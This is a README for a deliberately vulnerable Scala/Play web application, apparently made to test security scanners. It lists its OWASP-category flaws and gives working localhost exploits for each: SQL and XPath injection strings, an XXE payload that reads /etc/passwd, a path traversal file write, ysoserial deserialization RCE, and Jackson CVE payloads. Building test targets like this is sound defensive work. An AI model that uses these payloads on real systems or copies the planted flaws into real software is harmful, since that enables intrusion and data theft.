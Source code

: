 # Package

```
$ sbt stage
$ file ./target/helloshiftleft-play-jpa-scala-0.0.1-SNAPSHOT.jar 
```

# Run

```
$ sbt run
```

# Http routes

See routes at [config/routes](config/routes).    

Use `localhost` as host name in the URLs

To interact with the endpoints use `curl` (or any other tool)

+ GET /account
+ GET /createCustomer
+ POST /account `curl localhost:8082/account -X POST -H "Content-Type: application/json" --data '{ "accountNumber": 1337, "routingNumber": 1222 }'`
+ GET /customers 
+ GET /customersXML


# Package standalone (not officially supported by Play)

```
$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/helloshiftleft-play-jpa-scala-assembly-0.0.1-SNAPSHOT.jar
```

# Vulnerability coverage table

The following table shows vulns category implemented in HSL grouped according to OWASP standards.

| OWASP category              | Vuln description                                  |
| ----------------------------|-------------------------------------------------- |
| A1-Injection                | Sql Injection                                     |
| A2-Broken Auth              | missing HttpOnly Cookie                           |
| A3-Sensitive Data Exposure  | Weak crypto, clear text storage of sensitive data |
| A4-XXE                      | XML XXE attack                                    |
| A5-Broken Access Control    | Path traversal                                    |
| A6-Sec misconfiguration     | not present yet                                   |
| A7-XSS                      | reflected XSS attack                              |
| A8-Insecure deserialization | Java deserialization attacks                      |
| A9-Known Vulnerabilities    | we use a vulnerable version of jackson            |

# A1 SQL Injection

There are two SQL injection vulns, the first one in `getRawCustomer` and the second in `getRawCustomerByName`.
To exploit it you can interact with the endpoint in this way:

Normal behavior: ```curl "http://localhost:8082/rawcustomersbyname/Joe"```

Exploit: ```curl "http://localhost:8082/rawcustomersbyname/Joe%20'%20or%20'1'='1"```

# A2 missing HttpOnly cookie flag

The endpoint `/admin/login` reachable via POST request, does not set the cookie as HttpOnly.

# A4 XXE

The endpoint `/customersXML` suffers from an XXE vulnerabily.

```
curl  \
  --header "Content-type: application/xml" \
  --request GET \
  --data '<name>Guillaume</name>' \
  http://localhost:8082/customersXML
```

To exploit the XXE modify the payload above with the malicious one below:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <name>&ent;</name>
</userInfo>
```
Then you can use the following `curl` command to trigger the vulnerability:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: localhost:8082' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-GB,en;q=0.5' -H $'Accept-Encoding: gzip;q=0,deflate,sdch' -H $'Content-type: application/xml' -H $'Cookie:' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 168' \
    --data-binary $'<!--?xml version=\"1.0\" ?-->\x0d\x0a<!DOCTYPE replace [<!ENTITY ent SYSTEM \"file:///etc/passwd\"> ]>\x0d\x0a<userInfo>\x0d\x0a <firstName>John</firstName>\x0d\x0a <name>&ent;</name>\x0d\x0a</userInfo>' \
    $'http://localhost:8082/customersXML'
```


As result, the output will contain the passwd file.

# A5 directory traversal

`saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the attacker controllable cookies.
To exploit the vuln use the `filewriteexploit.py` script, as shown below:

```
python dirtraversalexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for the 
directory traversal is passed as second argument.

# A7 XSS

There is a reflected XSS in `/consumers/`. To exploit it visit the `/createConsumer` page and specify any malicious payload in the form.

# A8 Java deserialization 

`/unmarsh` retrives the `lol` parameter from the received POST request, decode64 its values and finally calls `readObject`.
To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
``` 
```
curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
```

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64
```

# A9 Jackson

The route `/bean1599` accepts POST operations and deserializes via Jackson the received body data. 
The file `exploit.json` contains the payload for CVE-2017-17485. 
Instead, the file `exploitold.json` provides the payload for CVE-2017-7525.

To run the exploit, first run the server with `sbt run` then type following commands:

```
export payload=`cat exploit.json`
curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

+ https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
+ https://github.com/irsl/jackson-rce-via-spel




# XPath injection

After starting the service it is possible to bypass the credential check with this URL: http://localhost:8082/checkAccount/admin/x'%20or%20'1'='1 . This results in the following xpath query: `//user[username/text()='admin' and password/text()='x' or '1'='1']` and the message `Hello admin`.

If you provide wrong credentials the handler returns `Error with your credentials!`. Syntax errors as http://localhost:8082/checkAccount/admin/x' result in the error message `A server error occurred: javax.xml.xpath.XPathExpressionException: javax.xml.transform.TransformerException: misquoted literal... expected single quote!` 


